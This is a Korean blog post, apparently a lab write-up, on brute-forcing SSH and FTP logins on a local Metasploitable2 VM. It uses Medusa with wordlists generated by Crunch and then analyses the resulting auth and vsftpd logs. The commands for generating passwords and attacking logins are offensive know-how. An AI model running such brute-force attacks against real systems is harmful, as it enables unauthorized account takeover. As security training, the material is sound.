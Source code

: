 ```yaml
---
title:  "Medusa"
excerpt: ""

categories:
  # - security
tags:
  - [csrf, security, metasploitable2, dvwa]

toc: true
toc_sticky: true
 
date: 2022-5-17
last_modified_at: 2022-5-17
---
```

## Kali linux에서 Medusa, Crunch를 활용해서 Brute Force 공격 해보기
#### Metasploitable2 설정
* * *
```bash
$ metasploitable2@msfadmin : sudo adduser iu
# 비밀번호는 goodluck
```

#### Kali 설정
* * *
medusa 설치 확인

```bash
$ kali@kali : sudo medusa --help
```

![picture 1](../assets/images/20220517-011724.png){: .center} 

##### Dictionary 수정
* * *
```bash
$ kali@kali : cd /usr/share/john
$ kali@kali : vi password.lst
```

##### Medusa 사용

```bash
$ kali@kali : sudo medusa -h 192.168.5.130 -u iu password.lst -M ssh
```

![picture 2](../assets/images/20220517-012128.png){: .center}

---

* * *
#### 딕셔너리 만들기 실습
* * *
```bash
$ kali@kali : cd /usr/share/crunch
# 메뉴얼 확인
$ kali@kali : sudo man crunch
```

##### 숫자 4자리로 구성된 딕셔너리를 만들기
* * *
```bash
$ kali@kali : sudo crunch 4 4 0123456789 -o pw1.txt
$ kali@kali : less pw1.txt
```
![picture 3](../assets/images/20220517-013532.png){: .center} 

\* 주의사항) 너무 큰 파일을 생성하면 에러 발생 우려 ex) 500MB 이상

##### 소문자 4자리로 구성된 딕셔너리 만들기
* * *
```bash
$ kali@kali : less charset.lst
$ kali@kali : sudo crunch 4 4 -f charset.lst lalpha -o pw2.txt
$ kali@kali : less pw2.txt
```
![picture 4](../assets/images/20220517-014036.png){: .center}

![picture 7](../assets/images/20220517-014206.png){: .center}  

![picture 5](../assets/images/20220517-014142.png){: .center}

##### 특정 문자가 들어가는 4자리로 구성된 딕셔너리 만들기
* * *
```bash
$ kali@kali : sudo crunch 4 4 0123456789 -t 'sk@@' -o pw3.txt
$ kali@kali : less pw3.txt
```

![picture 8](../assets/images/20220517-015612.png){: .center}

![picture 9](../assets/images/20220517-015648.png){: .center}

##### skinfosec 뒤에 숫자 세자리, 특수문자 1자리로 된 딕셔너리
* * *
\* ' ' 를 사용하고 @를 넣으면 와일드 문자로 사용되지만,

\* ' ' 를 사용하지 않는 경우 아래와 같이 문자가 지정 됨.
- @ : lower case character
- , : upper case character
- % : numbers
- ^ : symbols

```bash
$ kali@kali : sudo crunch 13 13 -t skinfosec%%%^ -o pw4.txt
$ kali@kali : less pw4.txt
```

![picture 10](../assets/images/20220517-020107.png){: .center}

![picture 11](../assets/images/20220517-020130.png){: .center}


##### Medusa + Crunch 로 Brute Force 공격 해보기
* * *
**Metasploitable 에서 계정 추가**

```bash
$ metasploitable : sudo adduser gidle
# password : Sk#4
# 로그 실시간 확인
$ metasploitable : tail -f /var/log/auth.log
```

![picture 12](../assets/images/20220517-021336.png){: .center}

**Kali 에서 crunch로 딕셔너리 생성**

```bash
$ kali@kali : sudo crunch 4 4 -t ,@^% -o pw5.txt
$ kali@kali : less pw5.txt
```

![picture 14](../assets/images/20220517-021536.png){: .center}


![picture 13](../assets/images/20220517-021512.png){: .center}

**Kali 에서 medusa 로 brute force 공격 시작**

```bash
$ kali@kali : sudo medusa -h 192.168.5.130 -u gidle pw5.txt -M ssh
# -t : 쓰레드 추가 -> 속도 up!
$ kali@kali : sudo medusa -h 192.168.5.130 -u gidle pw5.txt -M ssh -t 16
```

![picture 15](../assets/images/20220517-021802.png){: .center}
#### Log 분석하기
* * *
```bash
# Kali가 가져올 수 있도록 metasploitable2 에서 파일 옮기기
$ sudo cp /var/log/auth.log /var/www
$ sudo chmod 777 /var/www/auth.log
```

```bash
# kali로 가져오기 
$ sudo wget 192.168.5.128/auth.log
$ cat auth.log | awk '{print $12,$13,$14,$15}' | sort | uniq -c
$ cat auth.log | awk '{print $5}' | awk -F"[" '{print $1}' | sort | uniq -c | sort -rn
```

![picture 16](../assets/images/20220517-031446.png){: .center}

**ftp 로그 확인**

```bash
$ kali : sudo medusa -h 192.168.5.130 -u gidle -P pw5.txt -M ftp -t 16
```

```bash
# Kali가 가져올 수 있도록 metasploitable2 에서 파일 옮기기
$ msfadmin : sudo cp /var/log/auth.log /var/www
$ msfadmin : sudo chmod 777 /var/www/auth.log
```

```bash
# kali로 가져오기 
$ kali : sudo wget 192.168.5.128/vsftp.log
```

![picture 17](../assets/images/20220517-031911.png){: .center}  

```bash
# log 분석 uniq -c : 중복제거 + 개수, sort -rn -> r : 내림차순(revers), n : 수를 기준으로 정렬
$ kali : cat vsftpd.log | awk '{print $8, $12}' | sort | uniq -c | sort -rn
```

![picture 18](../assets/images/20220517-032332.png){: .center}  


**파일 가져오지 않고, Kali에서 Meta2로 SSH 접속 후 로그 확인**

```bash
$ kali : sudo ssh 192.168.5.130 -l msfadmin
```

![picture 19](../assets/images/20220517-033120.png){: .center}